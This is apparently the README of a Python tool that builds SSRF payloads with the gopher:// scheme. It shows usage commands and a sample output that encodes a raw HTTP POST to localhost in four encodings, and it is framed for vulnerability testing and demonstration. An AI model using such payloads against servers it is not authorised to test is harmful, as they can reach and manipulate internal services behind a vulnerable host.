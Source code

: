 # SSRF Gopher Payloads

This project contains a collection of Server-Side Request Forgery (SSRF) payloads using the Gopher protocol. These payloads can be used for testing and demonstrating SSRF vulnerabilities.

This project is implemented in pure Python with no external libraries required.

## Usage

1. Clone the repository:
    ```sh
    git clone https://github.com/dekadentno/ssrf-gopher-payloads.git
    ```
2. Navigate to the project directory:
    ```sh
    cd ssrf-gopher-payloads
    ```
3. Use the payloads in your SSRF testing.
    ```sh
    python ssrf-gopher-payloads.py --host localhost --port 80 --endpoint /api/v1/product --data "price=50&quantity=2" --request-type POST

    🚀 Plain Text Payload:
    gopher://localhost:80/_POST /api/v1/product HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 19

    price=50&quantity=2

    🔗 URL Encoded Payload:
    gopher://localhost:80/_POST%20/api/v1/product%20HTTP/1.1%0AHost%3A%20localhost%0AContent-Type%3A%20application/x-www-form-urlencoded%0AContent-Length%3A%2019%0A%0Aprice%3D50%26quantity%3D2

    🔐 Double URL Encoded Payload:
    gopher://localhost:80/_POST%2520/api/v1/product%2520HTTP/1.1%250AHost%253A%2520localhost%250AContent-Type%253A%2520application/x-www-form-urlencoded%250AContent-Length%253A%252019%250A%250Aprice%253D50%2526quantity%253D2

    🌐 Fully URL Encoded Payload:
    gopher%3A//localhost%3A80/_POST%252520/api/v1/product%252520HTTP/1.1%25250AHost%25253A%252520localhost%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250AContent-Length%25253A%25252019%25250A%25250Aprice%25253D50%252526quantity%25253D2
    ```

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss your ideas.

## License

See the [LICENSE](LICENSE) file for details.